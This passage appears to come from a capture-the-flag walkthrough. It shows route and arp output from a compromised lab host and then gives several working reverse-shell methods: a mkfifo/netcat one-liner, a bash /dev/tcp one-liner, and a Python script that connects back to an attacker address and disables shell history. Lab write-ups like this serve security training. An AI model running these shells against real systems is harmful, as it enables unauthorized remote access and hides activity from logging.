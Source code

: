```bash
10.100.13.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.14.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.15.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.16.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.17.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.18.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.19.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.20.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.120.10.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.11.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.12.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.13.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.14.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.15.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.16.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.17.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.18.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.19.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.20.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
[+] Running command: arp -a
? (10.78.10.2) at 00:16:3e:5b:49:a9 [ether] on eth1
? (10.99.64.251) at 00:16:3e:f3:92:14 [ether] on eth0
? (10.78.11.2) at 00:16:3e:c4:fa:83 [ether] on eth2
```

Okay, things getting more clear. There are other networks directly connected on `eth1` and `eth2`. Ill bet our `root.txt` is on another network. This ties back into that weird networking document we found under `/docs` in `nikito`. Lets scan these other networks real quick and see what is alive. 

Before we start enumerating the network, we need to upgrade our shell. Lets get a reverse shell going from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet, and  it looks like there is a working netcat on the system too:

```bash
# which nc
[+] Running command: which nc
/bin/nc
```

In one tab run the following `nc -nvlp <PORT>`, and on the host, run the following `rm /tmp/fu;mkfifo /tmp/fu;cat /tmp/fu|/bin/bash -i 2>&1|nc <IP> <PORT> >/tmp/fu` using our python exploit shell. Now we have an acutal shell. We could have alwo used the following: `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`. We could also have used the following python script since there is python:

```python
import os
import pty
import socket

lhost = "x.x.x.x" # XXX: CHANGEME
lport = 1337 # XXX: CHANGEME

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()
	
if __name__ == "__main__":
    main()
```
